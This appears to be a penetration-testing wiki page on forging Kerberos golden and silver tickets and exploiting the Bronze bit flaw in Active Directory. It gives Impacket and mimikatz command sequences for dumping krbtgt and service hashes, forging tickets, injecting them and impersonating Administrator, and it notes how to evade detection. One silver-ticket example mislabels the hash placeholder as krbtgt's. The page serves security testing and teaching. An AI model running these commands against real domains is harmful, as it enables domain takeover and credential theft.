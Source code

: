 ```yaml
---
description: MITRE ATT&CK™ Sub-techniques T1558.001 and T1558.002
---
```


# Forged tickets

## Theory

Silver and golden tickets are forged Kerberos tickets that can be used with [pass-the-ticket](pass-the-ticket.md) to access services in an Active Directory domain.

* **Golden ticket**: The NT hash \(or AES key\) of the special account `krbtgt` can be used to forge a special TGT \(Ticket Granting Ticket\) that can later be used with [Pass-the-ticket](pass-the-ticket.md) to access any resource within the AD domain.
* **Silver ticket**: The NT hash \(or AES key\) of a service account can be used to forge a Service ticket that can later be used with [Pass-the-ticket](pass-the-ticket.md) to access that service

The **Bronze bit** vulnerability \(CVE-2020-17049\) introduced the possibility of forwarding service tickets when it shouldn't normally be possible \(protected users, unconstrained delegation, constrained delegation configured with protocol transition\).

![](../../../.gitbook/assets/kerberos-delegation.png)

🛠️ //TODO : MS14-068

## Practice

The following parts allow to obtain modified or crafted Kerberos tickets. Once obtained, these tickets can be used with [Pass-the-Ticket](pass-the-ticket.md).

{% hint style="info" %}
**Tip: convert ticket to UNIX &lt;-&gt; Windows format**

To convert tickets between UNIX/Windows format with [ticketConverter.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketConverter.py).

```bash
# Windows -> UNIX
ticketConverter.py $ticket.kirbi $ticket.ccache

# UNIX -> Windows
ticketConverter.py $ticket.ccache $ticket.kirbi
```
{% endhint %}

### Golden ticket

{% hint style="warning" %}
In order to craft a golden ticket, testers need to find the krbtgt's NT hash or AES key \(128 or 256 bits\). In most cases, this can only be achieved with domain admin privileges. Because of this, golden tickets only allow lateral movement and not privilege escalation.
{% endhint %}

{% hint style="success" %}
Microsoft now uses AES 256 bits by default. Using this encryption algorithm \(instead of giving the NThash\) will be stealthier.
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
There are [Impacket](https://github.com/SecureAuthCorp/impacket) scripts for each step of a golden ticket creation : retrieving the `krbtgt`, retrieving the domain SID, creating the golden ticket.

```bash
# Retrieve the krbtgt NT hash or AES key
secretsdump.py -just-dc-user krbtgt -hashes 'LMhash:NThash' 'DOMAIN/DomainAdmin@DomainController'

# Find the domain SID
lookupsid.py -hashes 'LMhash:NThash' 'DOMAIN/DomainUser@DomainController' 0

# Create the golden ticket (with an NT hash)
ticketer.py -nthash $krbtgtNThash -domain-sid $domainSID -domain $DOMAIN randomuser

# Create the golden ticket (with an AES 128/256bits key)
ticketer.py -aesKey $krbtgtAESkey -domain-sid $domainSID -domain $DOMAIN randomuser
```
{% endtab %}

{% tab title="Windows" %}
On Windows, [mimikatz](https://github.com/gentilkiwi/mimikatz) can be used.

```bash
# Retrieve the krbtgt NT hash or AES keys
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /user:krbtgt

# with an NT hash
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /rc4:$krbtgt_NThash /user:randomuser /ptt

# with an AES 128 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes128:$krbtgt_aes128_key /user:randomuser /ptt

# with an AES 256 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes256:$krbtgt_aes256_key /user:randomuser /ptt
```

For both mimikatz and Rubeus, the `/ptt` flag is used to automatically [inject the ticket](pass-the-ticket.md#injecting-the-ticket).
{% endtab %}
{% endtabs %}

### Silver ticket

{% hint style="warning" %}
In order to craft a silver ticket, testers need to find the target service account's NT hash or AES key \(128 or 256 bits\).
{% endhint %}

{% hint style="success" %}
_"While the scope is more limited than Golden Tickets, the required hash is easier to get and there is no communication with a DC when using them, so detection is more difficult than Golden Tickets." \(_[_adsecurity.org_](https://adsecurity.org/?p=2011)_\)_
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [ticketer](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py) can create silver tickets.

```bash
# Find the domain SID
lookupsid.py -hashes 'LMhash:NThash' 'DOMAIN/DomainUser@DomainController' 0

# with an NT hash
python ticketer.py -nthash $NThash -domain-sid $DomainSID -domain $DOMAIN -spn $SPN $Username

# with an AES (128 or 256 bits) key
python ticketer.py -aesKey $AESkey -domain-sid $DomainSID -domain $DOMAIN -spn $SPN $Username
```

The SPN \(ServicePrincipalName\) set will have an impact on what services will be reachable. For instance, `cifs/target.domain` or `host/target.domain` will allow most remote dumping operations \(more info on [adsecurity.org](https://adsecurity.org/?page_id=183)\).
{% endtab %}

{% tab title="Windows" %}
On Windows, [mimikatz](https://github.com/gentilkiwi/mimikatz) can be used to generate a silver ticket. Testers need to carefully choose the right SPN type \(cifs, http, ldap, host, rpcss\) depending on the wanted usage.

```bash
# with an NT hash
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /rc4:$krbtgt_NThash /user:$username_to_impersonate /target:$targetFQDN /service:$spn_type /ptt

# with an AES 128 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes128:$krbtgt_aes128_key /user:$username_to_impersonate /target:$targetFQDN /service:$spn_type /ptt

# with an AES 256 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes256:$krbtgt_aes256_key /user:$username_to_impersonate /target:$targetFQDN /service:$spn_type /ptt
```

For both mimikatz and Rubeus, the `/ptt` flag is used to automatically [inject the ticket](pass-the-ticket.md#injecting-the-ticket).
{% endtab %}
{% endtabs %}

### Bronze bit \(CVE-2020-17049\)

{% hint style="warning" %}
In order to exploit this vulnerability, attackers need to find a service able to delegate to another service \(see [Kerberos delegations](kerberos-delegations.md)\), and they need that first service account NT hash or AES key \(128 or 256 bits\).
{% endhint %}

For example with [constrained delegation](kerberos-delegations.md#constrained-delegations) set between a controlled service and a target one with protocol transition enabled and the target user being protected, the [Impacket](https://github.com/SecureAuthCorp/impacket) script [getST](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getST.py) \(Python\) can perform all the necessary steps to obtain the final "impersonating" TGS \(in this case, "Administrator" is impersonated/delegated account but it can be any user in the environment\).

The input credentials are those of the compromised service account configured with constrained delegations.

```bash
# with an NT hash
getST.py -force-forwardable -spn $Target_SPN -impersonate Administrator -dc-ip $Domain_controller -hashes :$Controlled_service_NThash $Domain/$Controlled_service_account

# with an AES (128 or 256 bits) key
getST.py -force-forwardable -spn $Target_SPN -impersonate Administrator -dc-ip $Domain_controller -aesKey $Controlled_service_AES_key $Domain/$Controlled_service_account
```

The SPN \(ServicePrincipalName\) set will have an impact on what services will be reachable. For instance, `cifs/target.domain` or `host/target.domain` will allow most remote dumping operations \(more info on [adsecurity.org](https://adsecurity.org/?page_id=183)\).

### 🛠️ MS14-068 \(CVE-2014-6324\)

//TODO

## References

{% embed url="https://en.hackndo.com/kerberos-silver-golden-tickets/" caption="" %}

{% embed url="https://adsecurity.org/?p=2011" caption="" %}

{% embed url="https://adsecurity.org/?p=483" caption="" %}

{% embed url="https://en.hackndo.com/kerberos" caption="" %}

{% embed url="https://blog.netspi.com/cve-2020-17049-kerberos-bronze-bit-overview/" %}

